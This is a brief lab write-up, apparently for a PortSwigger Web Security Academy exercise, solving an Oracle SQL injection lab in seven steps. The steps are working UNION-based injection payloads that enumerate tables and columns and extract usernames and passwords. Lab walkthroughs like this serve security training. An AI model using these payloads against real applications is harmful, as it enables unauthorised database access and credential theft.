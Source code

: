 # [SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

Step - 1
---
```
'
```
Error because Single Quotes

Step - 2
---
```
'--
```
No MySQL

Step - 3
---
```
' ORDER BY 3--
```
Error because 2 Column

Step - 4
---
```
' UNION SELECT 'a','a' FROM dual--
```
2 String Column

Step - 5
---
```
' UNION SELECT 'a',table_name FROM all_tables--
```
1. table_name: `USERS_JASUOU`

Step - 6
---
```
' UNION SELECT 'a',column_name FROM all_tab_columns WHERE table_name='USERS_JASUOU'--
```
1. column_name: `USERNAME_GSFFNH` and `PASSWORD_DITWXL`

Step - 7
---
```
' UNION SELECT 'a',USERNAME_GSFFNH || '~' || PASSWORD_DITWXL FROM USERS_JASUOU--
```